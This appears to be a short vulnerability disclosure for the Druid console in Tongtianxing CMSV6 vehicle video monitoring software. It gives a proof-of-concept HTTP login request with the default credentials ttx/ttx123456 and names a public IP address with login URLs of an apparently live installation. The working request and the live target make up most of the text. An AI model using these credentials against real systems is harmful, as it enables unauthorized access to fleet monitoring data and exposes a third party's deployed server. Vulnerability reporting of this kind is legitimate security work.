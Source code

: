 Dongguan Tongtianxing Software Technology Co., Ltd.'s Vehicle Management System has a default password vulnerability that may affect the system

There is a default password vulnerability in the Druid of the Tongtianxing CMSV6 in car video monitoring platform

developer：http://www.g-sky.cn/

![image-20240327161651680](https://oss.wencha.cfd/img/20240327161653.png)

POC：

```http
  POST /druid/submitLogin HTTP/1.1
  Host: {{Hostname}}
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
  Accept: text/plain, */*; q=0.01
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Content-Type: application/x-www-form-urlencoded; charset=UTF-8
  X-Requested-With: XMLHttpRequest
  Content-Length: 42
  Connection: close
  Cookie: JSESSIONID=4F7D8A071EAC19E6196D1775D84D2F8D

  loginUsername=ttx&loginPassword=ttx123456.
```



Referer：

http://15.204.209.106/808gps/login.html

![image-20240327160402075](https://oss.wencha.cfd/img/20240327160403.png)

http://15.204.209.106/druid/login.html



use：loginUsername=ttx&loginPassword=ttx123456.

![image-20240327160626906](../AppData/Roaming/Typora/typora-user-images/image-20240327160626906.png)

